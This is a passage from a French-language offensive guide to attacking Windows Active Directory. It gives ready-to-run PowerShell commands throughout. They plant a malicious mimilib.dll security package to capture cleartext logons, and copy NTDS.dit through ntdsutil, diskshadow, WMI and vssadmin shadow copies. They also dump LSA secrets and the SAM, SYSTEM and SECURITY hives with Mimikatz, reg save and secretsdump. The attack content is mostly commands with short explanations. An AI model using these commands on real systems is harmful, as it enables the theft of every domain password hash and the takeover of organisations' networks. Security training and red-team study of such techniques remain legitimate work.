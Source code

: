 ```powershell
# Installation d'un SSP personnalisé
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d "mimilib"

# Copie de la DLL malveillante
copy mimilib.dll C:\Windows\System32\
```

Cette technique capture les mots de passe en clair de tous les utilisateurs s'authentifiant sur le système compromis.

## Extraction NTDS.dit et Techniques de Dumping Avancées

### Méthodes d'Acquisition NTDS.dit Modernes

L'extraction de la base de données Active Directory (NTDS.dit) représente l'objectif ultime de nombreuses campagnes d'attaque. Cette base contient l'intégralité des hashes de mots de passe, des informations utilisateur et de la configuration AD.

**Techniques d'extraction 2025 :**

```powershell
# Utilisation de ntdsutil avec shadow copy
ntdsutil "ac i ntds" "ifm" "create full C:\temp\backup" quit quit

# Shadow copy avec diskshadow
diskshadow /s script.txt
# Contenu de script.txt :
# set context persistent nowriters
# add volume c: alias mydrive
# create
# expose %mydrive% z:

# Extraction via WMI
wmic shadowcopy call create Volume='C:\'
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\temp\

# Utilisation de vssadmin
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\temp\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\SYSTEM c:\temp\SYSTEM
```

### Techniques de Dumping LSA et SAM Avancées

**Extraction LSA Secrets :**

Les LSA Secrets contiennent des identifiants critiques pour les comptes de service et les trusts :

```powershell
# Extraction LSA avec Mimikatz
lsadump::secrets

# Extraction via registre
reg save HKLM\SECURITY security.save
reg save HKLM\SAM sam.save  
reg save HKLM\SYSTEM system.save

# Parsing avec secretsdump
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
